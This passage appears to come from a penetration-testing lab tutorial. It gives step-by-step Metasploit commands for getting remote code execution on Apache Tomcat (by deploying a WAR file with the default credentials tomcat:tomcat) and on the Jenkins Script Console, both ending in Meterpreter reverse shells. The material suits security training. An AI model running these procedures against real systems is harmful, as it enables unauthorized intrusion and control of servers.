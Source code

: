 #### Tutorial 1: Exploiting Apache Tomcat (CVE-2009-3843)

- **Vector:** The Apache Tomcat service on port 8181 exposes its Manager application, which is protected by easily guessable default credentials (`tomcat`:`tomcat`).4 This administrative interface allows for the deployment of Web Application Archive (WAR) files, providing a direct path to remote code execution.
    
- **Tool:** Metasploit Framework.
    
- **Procedure:**
    
    1. Launch the Metasploit console: `msfconsole`.
        
    2. Select the appropriate exploit module: `use exploit/multi/http/tomcat_mgr_deploy`.
        
    3. Review the module's requirements with `show options`. The critical parameters are `RHOSTS`, `RPORT`, `HttpUsername`, and `HttpPassword`.
        
    4. Configure the exploit:
        
        - `set RHOSTS <TARGET_IP>`
            
        - `set RPORT 8181`
            
        - `set HttpUsername tomcat`
            
        - `set HttpPassword tomcat`
            
    5. Execute the attack: `exploit`.
        
- **Result:** The Metasploit Framework will automatically generate a malicious WAR file containing a payload, authenticate to the Tomcat Manager, upload the file, and trigger its execution. This results in a Meterpreter session, establishing a covert command-and-control (C2) channel to the compromised server.
    

#### Tutorial 2: Gaining RCE through the Jenkins Script Console

- **Vector:** The Jenkins Continuous Integration server on port 8080 includes a powerful "Script Console." This feature is intended for administrators to execute Groovy diagnostic scripts directly on the server. If this console is accessible—either due to a misconfiguration that allows unauthenticated access or through the use of stolen credentials—it provides a direct and reliable vector for Remote Code Execution (RCE).4
    
- **Tool:** Metasploit Framework.
    
- **Procedure:**
    
    1. Select the Jenkins script console exploit: `use exploit/multi/http/jenkins_script_console`.22
        
    2. Set the target parameters:
        
        - `set RHOSTS <TARGET_IP>`
            
        - `set RPORT 8080`
            
    3. Launch the exploit: `exploit`.
        
- **Result:** The module sends a POST request to the `/script` endpoint containing a Groovy script designed to execute a system command. This command initiates a reverse shell connection back to the attacker's machine, opening another Meterpreter session. This attack is a classic example of "Living off the Land" (LotL), where a legitimate, built-in feature of the software is abused for malicious purposes. This makes detection more challenging, as defenders cannot simply block the feature; they must secure it through proper access controls and vigilant monitoring.
    